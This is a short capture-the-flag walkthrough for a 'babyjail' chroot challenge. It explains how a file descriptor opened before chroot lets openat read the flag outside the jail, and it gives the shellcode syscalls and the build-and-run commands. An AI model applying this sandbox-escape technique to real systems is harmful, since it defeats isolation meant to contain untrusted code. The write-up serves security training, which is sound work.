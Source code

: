 Now, the difference is the program uses the `chdir` to lock us down to jail.
Thus, we need another approach to solve the problem.

Fortunately, there is a way to do that!
The program opens the file given by the `argv[1]` before performing `chroot`.
Also, it uses the following function call when you observe via `strace`.

```
openat(AT_FDCWD, "/", O_RDONLY|O_NOFOLLOW);
```

Here is a sentence from the Linux manual page.
> If the pathname given in pathname is relative, then it is interpreted relative to the directory referred to by the file descriptor dirfd (rather than relative to the current working directory of the calling process, as is done by open() for a relative pathname).

Thus, using the file descriptor from the file `argv[1]` and the function `openat`, we can exploit the program.
The code should be as follows.
```
openat(fd_for_argv1, "./flag", O_RDONLY);
sendfile(1, 4, 0, 0x80);
```

You can see the assembly code in `shellcode.s`.
Use the following commands to get the flag.
```
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/babyjail_level3_teaching1 / < ~/shellcode-raw
```